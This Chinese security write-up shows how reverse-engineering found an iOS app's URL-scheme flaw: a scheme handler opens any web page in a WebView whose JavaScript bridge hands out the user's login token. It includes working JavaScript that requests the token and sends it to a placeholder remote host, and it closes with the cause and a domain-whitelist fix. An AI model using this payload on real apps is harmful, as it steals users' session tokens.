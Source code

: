 ```yaml
---
title: 利用 URL Scheme 远程窃取用户 token
publish_date: 2020-08-06
---
```


### 什么是 URL Scheme？

- URL，我们都很清楚，`http://www.apple.com` 就是个 URL，我们也叫它链接或网址；
- Schemes，表示的是一个 URL 中的一个位置——最初始的位置，即 `://`之前的那段字符。比如 `http://www.apple.com` 这个网址的 `Schemes` 是 `http`；
- URL Scheme，`tel://10010` 则是一个最简单的 URL Scheme，通过这个 URL Scheme 可以在 iOS 设备任何应用中调起电话 App，并且拨打指定号码。

应用可以通过自定义的 URL Scheme 协议可以实现进程间通信，其具体表现为应用 A 可以通过 URL Scheme 调起应用 B，并且传入携带的参数。

首先查看应用已注册的 URL Scheme，可以在应用安装包 /info.plist 文件中查找。

![scheme_1.png](../url_scheme_attack_token/url_scheme_attack_token_1.png)

URL Scheme 回调函数：

```objective-c
// NS_DEPRECATED_IOS(2_0, 9_0, "Please use application:openURL:options:") __TVOS_PROHIBITED
- (BOOL)application:(UIApplication *)application handleOpenURL:(NSURL *)url;

// NS_DEPRECATED_IOS(4_2, 9_0, "Please use application:openURL:options:") __TVOS_PROHIBITED
- (BOOL)application:(UIApplication *)application openURL:(NSURL *)url sourceApplication:(nullable NSString *)sourceApplication annotation:(id)annotation;

// NS_AVAILABLE_IOS(9_0)
- (BOOL)application:(UIApplication *)app openURL:(NSURL *)url options:(NSDictionary<UIApplicationOpenURLOptionsKey, id> *)options;
```

如果外部通过 URL Scheme 调起客户端，那么一定会走这三个回调函数中的其中一个（跟 iOS 系统版本有关），所以我们就从这回调函数开始入手分析逻辑。

### 分析过程

应用二进制拖进 IDA ，接下来开始一步一步逆向分析代码

第一个当然是寻找 `[AppDelegate application:openURL:options:]` 方法：
![scheme_2.png](../url_scheme_attack_token/url_scheme_attack_token_2.png)

跟进 `+[AppSetupConf application:openURL:options:]` 方法：
![scheme_4.png](../url_scheme_attack_token/url_scheme_attack_token_3.png)

这个方法里面既调用了 `-[AppsFlyerTracker handleOpenUrl:options:]`，还调用了 `+[OKBLaunchHandler handleOpenURL:options:]` ，这个时候谷歌一下就可以确认，`AppsFlyerTracker` 是第三方统计、数据追踪的框架。

所以我们跟进 `+[OKBLaunchHandler handleOpenURL:options:]` 方法中：
![scheme_3.png](../url_scheme_attack_token/url_scheme_attack_token_4.png)

点击 `+[OKBLaunchHandler eventWithURL:type:]` 方法可以看到大概逻辑应该是做事件统计追踪的方法，所以我们继续跟进 `+[OKBLaunchHandler dispatchWithURL:coldLaunch:type:]` ，关键逻辑：
![scheme_5.png](../url_scheme_attack_token/url_scheme_attack_token_5.png)

接下来我们仔细分析下这段代码

首先变量 a3 是方法中第一个参数，通过方法名判断 a3 应该是我们传入的 URL Scheme，接着从代码 57 - 73 行，这部分是在判断传入 URL Scheme 的 scheme 是不是 http 或者 https，不满足条件时，继续执行；当满足条件时，直接 goto LABEL_15； 也就是直接结束该方法。

代码 74 - 78 行，判断了传入的 URL Scheme 是否存在 host，不存在则直接结束方法。

分析到这里，我们的 URL Scheme 大概应该是这样的：demo_scheme://xxx

接着代码 81 行调用了 `+[OKBLaunchHandler classWithHost:]` 方法，参数为我们传入 URL Scheme 的 host 字符串，并且还有一个返回值，跟进方法进行分析：
![scheme_6.png](../url_scheme_attack_token/url_scheme_attack_token_6.png)

这个方法看着一顿操作猛如虎，其实就是判断传入字符串是否包含 `_`，然后删除这个 `_`，最后赋值到变量 v21 把 `OKBLaunchEventHandler_` 和 v21 字符串拼接，然后判断这个类是否存在，如果存在，则返回这个类。

我们在 IDA Function View 里面搜索 ``OKBLaunchEventHandler_`，发现只可能拼接`Web`或者`MerchanthomeCom`：

![scheme_7.png](../url_scheme_attack_token/url_scheme_attack_token_7.png)

我们看到 `OKBLaunchEventHandler_Web` 有一个 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]` 的方法，看起来可以打开传入的网页 URL。所以分析到这里，我们的 URL Scheme 暂时应该是这样的：`demo_scheme://web_?`。

继续分析 `+[OKBLaunchHandler dispatchWithURL:coldLaunch:type:]` 的 85 - 107 行代码：
![scheme_8.png](../url_scheme_attack_token/url_scheme_attack_token_8.png)

接着调用了 `+[OKBJSHandle analysisParamWithQuery:]` 方法，并将 URL Scheme 的参数当作此方法参数传入。其实该方法逻辑就是将 URL Scheme 的参数变成一个字典并且返回。紧接着调用 `-[OKBLaunchHandlerModel setParams:]` 将字典赋值到 `OKBLaunchHandlerModel` 的 `params` 属性中 。

接着 99 - 104 行代码是判断 `OKBLaunchEventHandler_Web` 是否实现了 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]` 方法，因为这个方法我们刚在 IDA Function View 中看到了，所以直接调用 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]`，此时参数是 `OKBLaunchHandlerModel` 对象，我们要记得这个对象是有一个 params 属性的，且刚被赋值。

此时我们暂且不管这个字典的内容应该是什么，暂且不管 URL Scheme 的参数部分如何构造，先继续分析代码。

跟进 `-[OKBLaunchEventHandler_Web handleLaunchEventWithModel:]` 方法：
![scheme_9.png](../url_scheme_attack_token/url_scheme_attack_token_9.png)

该方法逻辑比较简单，大概是判断传入 `OKBLaunchHandlerModel` 对象的 `params` 字典是否包括 `url` 键，如果包括的话，`url` 键对应的值是否以`http` 或者 `https` 开头，如果条件均满足，则调用 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]`。

在 `-[OKBLaunchEventHandler_Web openWebViewWithURL:]` 中逻辑简单，直接打开了一个新的控制器，并且加载传入的 url。
![scheme_10.png](../url_scheme_attack_token/url_scheme_attack_token_10.png)

所以此时我们希望构造的 URL Scheme 格式为：`demo_scheme://web_?url=xxx`。

至此我们搞清楚了应用如何校验传入的 URL Scheme，并且我们应该如何构造 URL Scheme 可以打开自定义网页。

做到这一步我们先验证下之前的猜想，看看效果：

在 Safari 浏览器输入 `demo_scheme://web_?url=https://www.baidu.com`，Safari 调起应用并且打开了指定的 `https://www.baidu.com`：
![scheme_11.png](../url_scheme_attack_token/url_scheme_attack_token_11.png)

别急，现在我们只完成了漏洞利用分析的第一步。

接着我们来看下是否可以通过 js 调用应用的敏感接口。查看 `-[OKBWebViewController didReceiveScriptMessage:]` 方法，该方法是当 Native 收到 js 调用时的处理函数：
![scheme_12.png](../url_scheme_attack_token/url_scheme_attack_token_12.png)

此方法的参数是一个 `WKScriptMessage` 对象，该对象有一个 body 属性，body 就是 js 调用 Native 传入的参数。

通过分析伪代码可以看到进行了判断 body 的值是否是 `getToken` ，如果是的话，就调用 `-[OKBWebViewController p_callHandler:doSomeThing:completionHandler:]` 方法。

该方法三个参数，第一个是一个 js 传入的参数，也就是 `WKScriptMessage` 的 body 属性；第二个参数是一个代码块；第三个参数为空。

查看 `-[OKBWebViewController p_callHandler:doSomeThing:completionHandler:]` 函数实现：
![scheme_13.png](../url_scheme_attack_token/url_scheme_attack_token_13.png)

方法第二个参数（传入的代码块）被赋值到 v9，并且调用了这个代码块，返回值保存在了 v11。接着调用 `[[OKBWebViewController wkWebView] evaluateJavaScript:completionHandler:]`来执行 `iOS._callBack(xxx)` js 代码。此时我们需要确定 v11，也就是代码块的返回值到底是什么。代码块：
![scheme_14.png](../url_scheme_attack_token/url_scheme_attack_token_14.png)

这里可以看到是获取了用户的登录 token，并且返回；所以执行的 js 伪代码应该是 `iOS._callBack(用户token)`。

到这里我们搞清楚了如何通过 URL Scheme 调起自定义页面，知道了使用 js 调用 Native 如何传递参数，也知道了 Native 如何返回结果到 js 代码，所以我们就可以构造 js 代码来窃取用户的 token，并且发送到远程服务器。

js 代码：

```
<script type="text/javascript">
var action = "getToken";
window.webkit.messageHandlers.JShandle.postMessage(action);
var iOS = {
	_callBack:function ( action, param){
		var httpRequest = new XMLHttpRequest();
		httpRequest.open('GET', 'https://xxx/' + param, true);
		httpRequest.send();
	}
}
</script>
```

这样我们通过 URL Scheme 来调起网页就可以远程获取到用户的 token 了:
![scheme_15.png](../url_scheme_attack_token/url_scheme_attack_token_15.png)

但是这样还不够优雅，我们需要一个网页来调起应用，而不是手动在 Safari 中输入 URL Scheme，这样才可以达到远程攻击的效果。
![scheme_16.png](../url_scheme_attack_token/url_scheme_attack_token_16.png)

这样在用户浏览网页时，便可以自动通过 URL Scheme 调起应用，并且远程窃取用户的 token 发送到服务器。

### 漏洞思路 + 总结

#### 利用过程

首先需要应用注册 URL Scheme

通过 URL Scheme 可以调起攻击者的恶意网页

Natvive 暴露敏感接口供 js 调用

js 窃取用户敏感数据，发送到远程服务器

#### 漏洞成因

应用注册 URL Scheme 供外部调用，并且可以在应用内加载指定网页。

当应用加载攻击者指定网页后，应用未做严格鉴权，导致网页 js 代码调用了应用暴露的敏感 Native 函数。

#### 如何修复

当应用有通过 URL Scheme 调起并打开任意网页功能的需求时，需要对打开网页域名做严格过滤，当非白名单域名时，禁止 js 调用 Native 函数。